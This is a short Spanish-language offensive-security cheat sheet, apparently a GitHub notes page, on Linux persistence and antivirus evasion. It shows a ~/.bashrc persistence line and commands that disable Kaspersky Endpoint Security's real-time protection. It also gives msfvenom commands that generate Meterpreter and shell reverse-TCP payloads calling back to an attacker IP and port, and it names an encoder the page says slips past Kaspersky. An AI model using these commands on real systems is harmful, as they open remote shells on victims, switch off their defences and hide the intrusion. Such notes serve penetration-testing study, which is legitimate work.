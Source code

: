 ### Archivos de condiguracion de usuario
```
echo "touch /tmp/bashtest.txt" >> ~/.bashrc
ls -al /tmp/bashtest.txt
/bin/bash
ls -al /tmp/bashtest.txt
```
 
#### Puerta trasera simple de configuración de VIM
```
:echo "this is a test"
```
 
### Bypassing AV
#### Kaspersky EndPoint Security
Deshabilitar protección en tiempo real
```
sudo kesl-control --stop-t 1
```

Escaneo de archivo `eirca.txt`

```
sudo kesl-control --scan-file ./eicar.txt
sudo kesl-control -E --query | grep DetectName
```

Si ejecutamos un escaneo con Kaspersky en nuestro archivo met.elf como hicimos con nuestro archivo de prueba EICAR, el archivo es detectado como malware.
```bash
> msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.100.9 lport=4444 -f elf > met.elf
> sudo kesl-control --scan-file met.elf
> sudo kesl-control -E --query | grep DetectName
DetectName=HEUR:Backdoor.Linux.Agent.ar
```

Encoder `x64/zutto_dekiru` no detectado por AV
```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.100.9 lport=4444 -f elf  -e x64/zutto_dekiru > met64zutto.elf
sudo kesl-control --scan-file met64zutto.elf 
```

Restaurar proteccion en tiempo real (cuando accedemos o ejecutamos un archivo, Kaspersky escanearlo automáticamente en busca de virus.)
```
sudo kesl-control --start-t 1
```

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f c > buf.c
gcc -o hack.out hack.c -z execstack
sudo kesl-control --scan-file ./hack.out
```
 
